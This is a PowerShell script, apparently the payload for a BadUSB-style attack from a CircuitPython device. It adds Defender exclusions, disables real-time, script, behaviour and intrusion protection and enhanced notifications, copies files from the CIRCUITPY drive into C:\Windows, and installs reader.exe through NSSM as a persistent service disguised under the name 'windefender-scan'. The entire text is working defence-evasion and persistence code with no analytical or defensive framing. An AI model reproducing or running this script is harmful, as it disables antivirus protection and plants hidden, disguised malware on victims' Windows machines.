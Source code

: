 # Disable Enhanced Notifications

powershell -command 'Add-MpPreference -ExclusionPath "c:\temp" -ExclusionProcess "C:\Windows\reader.exe"'

powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true'

Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications" -Name DisableEnhancedNotifications -Value 1

# Disable Real-Time Monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Find the CIRCUITPY drive
$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    # Check if the source path exists
    if (Test-Path $sourcePath) {
        # Copy files from CIRCUITPY to the Windows folder
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Set-Location -Path $destinationPath

        # Define NSSM path and service parameters
        $nssmPath = Join-Path $destinationPath "nssm.exe"  # Assuming nssm.exe is copied to the Windows folder
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        # Check if NSSM and the reader.exe file exist
        if ((Test-Path $nssmPath) -and (Test-Path $exePath)) {
            # Install and start the service
            & $nssmPath install $serviceName $exePath
            & $nssmPath start $serviceName
        } else {
            Write-Host "nssm.exe or reader.exe not found in the destination path."
        }
    } else {
        Write-Host "Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Write-Host "CIRCUITPY drive not found."
}
